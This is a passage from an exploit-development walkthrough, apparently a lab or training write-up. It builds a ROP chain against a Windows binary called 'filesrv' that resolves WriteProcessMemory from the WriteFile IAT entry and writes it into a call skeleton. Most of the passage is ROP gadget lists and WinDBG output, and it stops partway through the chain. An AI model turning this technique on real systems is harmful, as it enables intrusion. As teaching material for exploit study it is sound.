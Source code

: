 WinDBG shows that ecx is now indeed aligned with our skeleton:

```
0:001> dd ecx
009df688  41414141 3fab1010 ffffffff 3fab1010
009df698  42424242 43434343 3fb5635a 3fab159d
```

After having a pointer to the skeleton we can proceed to replace the dummy values. The first one (where we placed As) is the address to WriteProcessMemory. We do not have a kernel32 leak so we have to find another way to get its address. If we look at the binaries Import Address Table (IAT), we can see that it imports quite a bit of functions but none of them is WriteProcessMemory:

![](ida.png)This is unfortunate but we can use another function from kernel32 & calculate the offset to WriteProcessMemory from that address. The only downside is that we lose some portability as we would have to know the targets windows version & patch level or need a copy of its kernel32.dll. We can use WinDBG to get the offset:

```
0:003> ? kernel32!writeprocessmemorystub - kernel32!writefile
Evaluate expression: 72848 = 00011c90
```

Now we can extend our ropchain to dereference the IAT entry of WriteFile, add the offset & then write this value to our skeleton:

```
0x704F4 + binary_base,  # pop eax; ret;
0x9015C + binary_base,  # IAT WriteFile
0x2BB8E + binary_base,  # mov eax, dword ptr [eax]
0x636a2 + binary_base,  # pop edx; ret;
0xfffee370,             # -00011c90, offset from WriteFile to WriteProcessMemory
0x59a05 + binary_base,  # sub eax, edx; pop ebp; ret;
0x41414141,
0x7ab35 + binary_base,  # mov dword ptr [ecx], eax; pop ebp; ret;
```

We can confirm in WinDBG that value has been written:

```
filesrv+0x7ab35:
3fb2ab35 8901            mov     dword ptr [ecx],eax  ds:002b:019bf370=41414141
0:003> dd ecx
019bf370  41414141 3fab1010 ffffffff 3fab1010
0:003> p
3fb2ab37 5d              pop     ebp
0:003> dd ecx
019bf370  76c45240 3fab1010 ffffffff 3fab1010
```

Now we move the skeleton pointer ahead to point to the next value we want to replace:

```
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0; 4
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0; 8
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0; 12
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0;
0x0582b + binary_base, # inc ecx; ret 0; 16
0x0582b + binary_base, # inc ecx; ret 0;
```
